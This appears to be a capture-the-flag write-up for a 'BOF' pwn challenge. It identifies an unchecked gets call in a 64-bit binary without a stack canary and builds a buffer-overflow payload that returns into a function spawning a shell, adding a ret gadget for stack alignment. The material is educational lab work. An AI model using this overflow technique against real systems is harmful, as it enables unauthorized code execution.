

# PWN

## 👻 BOF (solved)

-   Score: 100, Solves: 189

### Problem

[bof](bof/bof)

### Solution

1.  `file bof`

    ```shell
    ➜ file bof
    bof: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=378b751f1056b9026ef636c05439f4550feb8154, stripped
    ```

2.  `checksec` ➜ **disabled CANARY**

    

3.  `ida pro` -> `fn + F5` main

    ```c
    __int64 __fastcall main(__int64 a1, char **a2, char **a3)
    {
      char v4; // [rsp+0h] [rbp-30h]
    
      sub_40069A(a1, a2, a3);
      puts(&s);
      gets(&v4);
      return 0LL;
    }
    ```

     `gets` doesn’t check the input length

    ➜ buffer overflow

4.  distance to `old rbp = 0x30` (not exactly the length of char buffer)

    ➜  `payload = nonsense * 0x30 + (8 bytes to overwrite rbp) + (target return address)`

    |  |  |
    | -------- | -------- |

5.  find `target return address`

    Target: `system("\bin\sh")`

    

    `return to 0x400687` $\because$ function sub_400687 call `system("\bin\sh")`

    ➜  `payload = ‘A’ * (0x30 + 8) + 0x400687`

6.  use `gdb` to test the payload

    

    Crack because the `rsp` value was not 16 byte padded (hex representation didn’t end with `0`)

    ➜  `payload = ‘A’ * (0x30 + 8) + ret + 0x400687`

7.  Get shell.

    ➜ find flag

    

